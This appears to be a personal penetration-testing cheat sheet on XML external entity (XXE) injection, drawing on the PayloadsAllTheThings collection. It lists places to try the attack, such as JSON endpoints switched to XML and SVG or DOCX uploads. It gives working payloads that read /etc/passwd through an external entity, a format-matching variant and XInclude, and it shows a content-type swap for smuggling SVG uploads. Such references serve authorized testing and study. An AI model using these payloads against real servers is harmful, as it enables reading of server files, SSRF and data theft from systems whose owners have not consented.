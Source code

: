 [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)


**Check:**

- XXE if an application references XML formatted data.
- If you think an endpoint is only accepting JSON, try to switch to XML and check if the application still accepts it.
- SVG uploads (try even if the form says png only)
- DOCX uploads

**Potential impact**

- View files on target server
- SSRF
- Exfiltrate Data

**Basic payload** - file inclusion

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (\#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

**Ensure you’re following the applications expected format**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

**File Upload**
Intercept image upload, change content type header, and file extension to svg
```
Content-Type: image/svg+xml
```
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-svg](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-svg)
![](../../assets/Pasted%20image%2020250629162451.png)

**Via XInclude**
Request is sending data in payload, we can potentially replace the data with XInclude to achieve file inclusion
Payload
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
![](../../assets/Pasted%20image%2020250629163247.png)